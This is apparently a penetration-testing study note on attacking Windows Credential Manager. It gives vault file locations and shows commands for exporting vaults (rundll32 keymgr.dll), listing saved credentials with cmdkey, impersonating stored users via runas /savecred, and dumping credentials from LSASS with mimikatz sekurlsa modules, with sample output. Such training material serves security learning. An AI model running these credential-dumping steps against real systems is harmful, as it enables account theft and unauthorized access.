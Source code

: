 ## Windows Vault and Credential Manager

It allows users and applications to securely store credentials relevant to other systems and websites. Credentials are stored in special encrypted folders on the computer under the user and system profiles ([MITRE ATT&CK](https://attack.mitre.org/techniques/T1555/004/)):


- `%UserProfile%\AppData\Local\Microsoft\Vault\`
- `%UserProfile%\AppData\Local\Microsoft\Credentials\`
- `%UserProfile%\AppData\Roaming\Microsoft\Vault\`
- `%ProgramData%\Microsoft\Vault\`
- `%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\`


Each vault folder contains a `Policy.vpol` file with AES keys (AES-128 or AES-256) that is protected by DPAPI. These AES keys are used to encrypt the credentials. Newer versions of Windows make use of `Credential Guard` to further protect the DPAPI master keys by storing them in secured memory enclaves ([Virtualization-based Security](https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-vbs)).

Microsoft often refers to the protected stores as `Credential Lockers` (formerly `Windows Vaults`). Credential Manager is the user-facing feature/API, while the actual encrypted stores are the vault/locker folders. The following table lists the two types of credentials Windows stores:

|Name|Description|
|---|---|
|Web Credentials|Credentials associated with websites and online accounts. This locker is used by Internet Explorer and legacy versions of Microsoft Edge.|
|Windows Credentials|Used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories.|

![[Pasted image 20250711184541.png]]


It is possible to export Windows Vaults to `.crd` files either via Control Panel or with the following command. Backups created this way are encrypted with a password supplied by the user, and can be imported on other Windows systems.

```cmd
C:\Users\sadams>rundll32 keymgr.dll,KRShowKeyMgr
```

![[Pasted image 20250711184630.png]]

## Enumerating credentials with cmdkey

We can use [cmdkey](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) to enumerate the credentials stored in the current user's profile:

Attacking Windows Credential Manager

```cmd
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

Stored credentials are listed with the following format:

|Key|Value|
|---|---|
|Target|The resource or account name the credential is for. This could be a computer, domain name, or a special identifier.|
|Type|The kind of credential. Common types are `Generic` for general credentials, and `Domain Password` for domain user logons.|
|User|The user account associated with the credential.|
|Persistence|Some credentials indicate whether a credential is saved persistently on the computer; credentials marked with `Local machine persistence` survive reboots.|
Whenever we come across this type of credential, we can use `runas` to impersonate the stored user like so:

```cmd-session
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

## Extracting credentials with Mimikatz

There are many different tools that can be used to decrypt stored credentials. One of the tools we can use is [mimikatz](https://github.com/gentilkiwi/mimikatz). Even within `mimikatz`, there are multiple ways to attack these credentials - we can either dump credentials from memory using the `sekurlsa` module, or we can manually decrypt credentials using the `dpapi` module. For this example, we will target the LSASS process with `sekurlsa`:



```cmd-session
C:\Users\Administrator\Desktop> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman

...SNIP...

Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...

...SNIP...


sekurlsa::logonpasswords



//get CURRENT SESSION LOGIN HASHES -> Worked in a lab
```


> [!NOTE] 
> **Note:** Some other tools which may be used to enumerate and extract stored credentials included [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), [LaZagne](https://github.com/AlessandroZ/LaZagne), and [DonPAPI](https://github.com/login-securite/DonPAPI).

